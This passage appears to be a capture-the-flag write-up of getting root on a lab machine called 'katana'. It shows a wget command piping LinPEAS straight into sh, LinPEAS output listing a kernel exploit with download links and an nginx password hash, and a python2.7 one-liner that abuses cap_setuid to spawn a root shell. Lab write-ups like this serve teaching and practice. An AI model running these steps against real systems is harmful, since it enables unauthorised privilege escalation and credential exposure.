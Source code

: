 While that runs, I run LinPEAS!

```
$ wget -O- --tries 1 --timeout 3 https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-03-31 13:54:07--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...
```

The most noteworthy findings are:

- A highly probable kernel exploit

```
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

- An NGINX password file

```
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 44 May 11  2020 /etc/nginx/.htpasswd
admin:$apr1$1xby0ne1$riRBQEbOQovyW3qF1iqlZ1
```

(though this ons is likely `admin:admin` which we found earlier...)

- Python 2.7 has setuid capabilities

```
Files with capabilities (limited to 50):
...
/usr/bin/python2.7 = cap_setuid+ep
```

This is likely our in!

We get a shell as root leveraging the python2.7 binary:

```
www-data@katana:/var$ python2.7 -c 'import os; import pty; os.setuid(0); pty.spawn("/bin/bash")'

root@katana:/var# whoami
whoami
root
```

and we find our root flag!
